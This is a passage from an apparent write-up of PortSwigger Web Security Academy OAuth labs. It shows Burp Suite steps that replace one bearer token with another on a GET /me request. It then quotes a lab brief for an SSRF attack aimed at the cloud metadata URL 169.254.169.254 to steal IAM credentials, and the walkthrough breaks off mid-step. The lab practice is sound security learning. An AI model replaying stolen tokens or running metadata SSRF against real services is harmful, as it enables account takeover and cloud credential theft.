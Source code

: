 ```bash
hKGp4mXZqI5Op-IIGzW6o9HRd27T0DlAIT7ae1GYU8G

Go to: HTTP history
Find:

GET /me HTTP/1.1

Change:

Authorization: Bearer huK6JqRuiHVxS066EJw27xNPitJJAQa5_xmT2QGOMC6beyy70iaf9zfb

To

Authorization: Bearer hKGp4mXZqI5Op-IIGzW6o9HRd27T0DlAIT7ae1GYU8G

Send

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220611235745.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220611235829.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220612000005.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220611235602.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220611233646.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220612000107.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220611233924.png)

### SSRF via OpenID dynamic client registration
```bash

# This lab allows client applications to dynamically register themselves with the OAuth service via a dedicated registration endpoint. Some client-specific data is used in an unsafe way by the OAuth service, which exposes a potential vector for SSRF.

# To solve the lab, craft an SSRF attack to access http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/ and steal the secret access key for the OAuth provider's cloud environment.

# You can log in to your own account using the following credentials: wiener:peter

Go to: "My account"
Login as:

wiener:peter

Go to: HTTP history
Find:

GET /auth/KzWxMVtB6neBqDgq0fCfD HTTP/1.1

Copy:

oauth-ac511f431ea14217c03a073102a300e6.web-security-academy.net

Open a new tab in browser
Go to:

```